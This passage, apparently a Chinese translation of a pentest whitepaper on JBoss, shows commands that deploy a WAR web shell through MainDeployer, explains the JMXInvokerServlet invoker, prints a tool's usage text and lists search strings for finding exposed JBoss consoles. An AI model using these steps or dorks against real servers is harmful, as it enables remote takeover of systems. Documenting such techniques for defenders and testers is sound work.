 在远程服务器上创建一个本地的 redteam.war 文件，现在第二部就可以利用 MainDeployer 安装/tmp/redteam.war 文件了。

```
$ ./webconsole_invoker.rb -u http://scribus:8080/web-console/Invoker -i deploy -s "java.lang.String" -p "file:/tmp/redteam.war" jboss.system:service=MainDeployer 
```

redteam-shell.jsp 又可以访问了。

#### JMXInvokerServlet

之前提到过 JBoss 服务器允许任何协议访问 MBean 服务器，对于 HTTP，JBoss 提供 HttpAdaptor。

默认安装中，HttpAdaptor 是没有启用的，但是 HttpAdaptor 的 JMX Invoker 可以通过 URL 直接访问。

```
http://$hostname/invoker/JMXInvokerServlet 
```

这个接口接受 HTTP POST 请求后，转发到 MBean，因此与 Web 控制台 Invoker 类似，JMXInvokerServlet 也可以发送任意的 JMX 调用到 JBoss 服务器。

##### 创建 MarshalledInvocation 对象

JMXInvokerServlet 的调用与 Web 控制台 Invoker 不兼容，所以不能使用 webconsole_invoker.rb 脚本调用。

MarshalledInvocation 对象通常只在内部 JBoss 服务器上做交流。

httpinvoker.rb 脚本与 webconsole_invoker.rb 脚本类似，但是需要 JBoss 服务器激活 HttpAdaptor

```
$ ./httpinvoker.rb -h
Usage: ./httpinvoker.rb [options] MBean
￼-j, --jndi URL               The JNDI URL to use (default:http://localhost:8080/invoker/JNDIFactory)
-p, --adaptor URL            The Adaptor URL to use (default:jmx/invoker/HttpAdaptor)
-a, --get-attr ATTR          Read an attribute of an MBean
-i,  --invoke METHOD         invoke an MBe an method          
     --invoke-params PARAMS  MBean method params
-s, --invoke-sigs SIGS       MBean method signature
-t, --test                   Test the script with the ServerInfo MBean
-h, --help                   Show this help 
```

##### 安装 tedteam.war

与 webconsole_invoker.rb 安装类似。

寻找 JBoss 服务器的方法：

```
inurl:"jmx-console/HtmlAdaptor"
intitle:"Welcome to JBoss" 
```

From: [Whitepaper_Whos-the-JBoss-now_RedTeam-Pentesting_EN](http://www.redteam-pentesting.de/publications/2009-11-30-Whitepaper_Whos-the-JBoss-now_RedTeam-Pentesting_EN.pdf)

**Tags:** [JBoss](http://drops.wooyun.org/tag/jboss), [安全](http://drops.wooyun.org/tag/%e5%ae%89%e5%85%a8)
